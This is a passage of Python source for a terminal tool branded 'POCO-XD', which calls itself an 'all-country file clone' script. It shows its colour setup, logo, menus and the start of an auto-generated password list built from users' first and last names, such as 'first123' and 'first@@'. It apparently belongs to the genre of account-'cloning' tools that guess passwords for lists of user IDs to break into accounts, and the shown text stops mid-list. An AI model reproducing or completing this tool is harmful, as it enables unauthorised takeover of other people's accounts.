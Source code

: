 loop=0;oks=[];cps=[];twf=[];pcp=[];id=[];tokenku=[];user=[];plist=[]
#--------------------< SYS >--------------------#
sys.stdout.write('\x1b]2; <[POCO-XD]>\x07')
#--------------------< COLOUR >--------------------#
G="\x1b[38;5;46m";W="\x1b[38;5;15m";R="\x1b[38;5;160m";B="\033[1;90m";Y="\033[1;33m";T="\033[1;34m";P="\x1b[38;5;205m"
#--------------------< STYLE >--------------------#
xd=f"{R}<{W}={R}>{G}";xd1=f"{R}<{W}1{R}>{G}";xd2=f"{R}<{W}2{R}>{G}";xd3=f"{R}<{W}3{R}>{G}";xd4=f"{R}<{W}4{R}>{G}";xd5=f"{R}<{W}5{R}>{G}";xd6=f"{R}<{W}6{R}>{G}";xd0=f"{R}<{W}0{R}>{G}";xdx=f"{R}<{W}?{R}>{G}";xdxx=f"{R}:{G}"
#--------------------< CLEAR >--------------------#
def clear():os.system('clear');print(logo)
def linex():print(f'{W}──────────────────────────────────────────────────')
#--------------------< LOGO >--------------------#
logo = f"""
      {G}  _____   _____  _______  _____ 
      {W} |_____] |     | |       |     |
      {G} |       |_____| |_____  |_____| {W}1.0
{W}──────────────────────────────────────────────────
{xd} OWNER    {xdxx} MR-POCO
{xd} TOOLTYPE {xdxx} FILE{R}[{W}ALL-COUNTRY{R}]{G}CLONE
{xd} STATUS   {xdxx} SCRIPT GIFT
{W}──────────────────────────────────────────────────"""
#--------------------< MAIN MENU >--------------------#
def poco():
    clear();print(f"{xd1} START FILE CLONE ");print(f"{xd0} EXIT CLONING");linex();sadiya=input(f"{xdx} SELECT {xdxx} ")
    if sadiya in ['1']:___file___()
    elif sadiya in ['2']:___random___()
    elif sadiya in ['0']:exit()
    else:linex();print(f'{xd} OPTION NOT FOUND ');linex();time.sleep(1);print(f"{xd} TRY AGAIN");time.sleep(1);poco()
#--------------------< FILE MENU >--------------------#
def ___file___():
	clear();print(f'{xd} EXAMPLE {xdxx} /sdcard/poco.txt');linex();file=input(f"{xdx} ENTER FILE NAME {xdxx} ")
	try:
		fo = open(file,'r').read().splitlines()
	except FileNotFoundError:
		linex();print(f'{xd} OPTION NOT FOUND ');linex();time.sleep(1);print(f"{xd} TRY AGAIN");time.sleep(1);___file___()
	clear();print(f'{xd1} METHOD {R}|{G}M1{R}|');print(f'{xd2} METHOD {R}|{G}M2{R}|');linex();methd=input(f"{xdx} SELECT {xdxx} ")
	clear();print(f'{xd} NOTE {xdxx} AUTO PASSWORD ONLY BD WORKING ');linex();print(f'{xd1} AUTO {R}|{G}23{R}|{G} PASSWORD CLONE');print(f'{xd2} MANUAL PASSWORD CLONE');linex();ppp=input(f"{xdx} SELECT {xdxx} ")
	if ppp in ['1']:
		plist.append('firstlast')
		plist.append('first last')
		plist.append('first12')
		plist.append('first123')
		plist.append('first1234')
		plist.append('first12345')
		plist.append('first@')
		plist.append('first@@')
		plist.append('first@@@')
		plist.append('first@@@@')
		plist.append('first@#')
		plist.append('first@@##')
		plist.append('first@123')
		plist.append('first##')
		plist.append('first1122')
		plist.append('first111')
		plist.append('@first@')